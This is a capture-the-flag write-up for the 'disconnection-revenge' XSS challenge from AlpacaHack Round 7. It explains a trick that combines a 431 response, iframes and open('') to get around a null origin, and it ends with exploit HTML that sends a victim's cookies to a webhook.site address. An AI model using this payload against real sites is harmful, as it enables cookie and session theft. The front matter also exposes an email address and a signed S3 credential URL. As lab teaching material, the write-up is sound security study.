 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4664JJZHNDH%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T210326Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjED0aCXVzLXdlc3QtMiJHMEUCIQCozhWXka7T%2Be0yhqub9X%2BmQPCOevwm1Oz%2BxCPpVufhLQIgTLSkpveNhalX0cn8uGPnVCvHOkxr%2B4RscLaFRecGv60qiAQI9v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDDEd1FzGn7MNvqphGircA6skVD1PGBl2t%2Bwdxi2zKqBwoLvMMSJd4fOi1LotQhvLqoi3KgMdqMYmHcaeo16k3%2FIAcPhprpARJlhB8Lp3MZeHez5Ql59e4i4IUyYRBBMaKrlmTsdn%2FQgj%2BNSMSL3vMFq%2FydqRIwFWi5kvpBMaXiCG2%2FgfHh%2B8V0r8w1WGNhmBYGJz5k3pEEmFkHI31iLXL6fh21w91jluCD%2FCVTAVMngxS0%2BTJax8kB%2Bh6JU5WFyC7dT04hBJlgcFvKDXFUVo%2B1xXYdhiVjry1Q3Wfc3epBHFOOqXT2JXEK0BnTRf7vqcmL7AhrTN5NbwFdqZoUP27WimBKjcHZiz7O9D38Q7D2FM8XtW2CaulEq41x45cHc89Bo0Ph7fIbWPQKBWnxzhXSiE%2BNCTBqipnxM7Sia%2B0CsO87u%2BLf0PZOYw9gfcs8Ts0azDZE59fQ4BqzoTN%2BYq2EJimmPC%2BRpofhQHuyoCwiwAZdzhD5Qrzjvw9LynfU387sqC7MZh%2BtyIfyIXZ23ZFU%2FngG0Zd1TSbTxu%2FtXD4vql%2FzlKQ4CS%2BM6ysCdY0yUWt0h1asHAajh6W4zxF0Hzl6mFx24JtQoREunYEvAQDdMeo%2F2swt44XW4nsMl1wYVt8UPXGkui7SM5tbECMKK%2Bw8EGOqUBlyvrN0WU4G3nzsfsdGswfSG8vfzvElRgfUMu7P%2B5p6%2B0MeD3XvNxMKDRkQ%2Fb7ekmBWXP%2B69FuuCw4yVeFCoytOzWupsf7AFpEgSIsDcWg7fMSj%2F8c%2BTN5W7x7PggVhYl52GqRWnfuHW2oCzlv%2BoHoo8BNgg5V8pJzryc9vvbuw1SZhbAioPJnx7RM9O2ic1gHjz%2F99WGjiGUw6pLZ8Uk%2FY3tfDEL\&X-Amz-Signature=93aa4fea26b6df803ca81e3b8562c853145ded50cc8296574fb9dd01ad8bad07\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
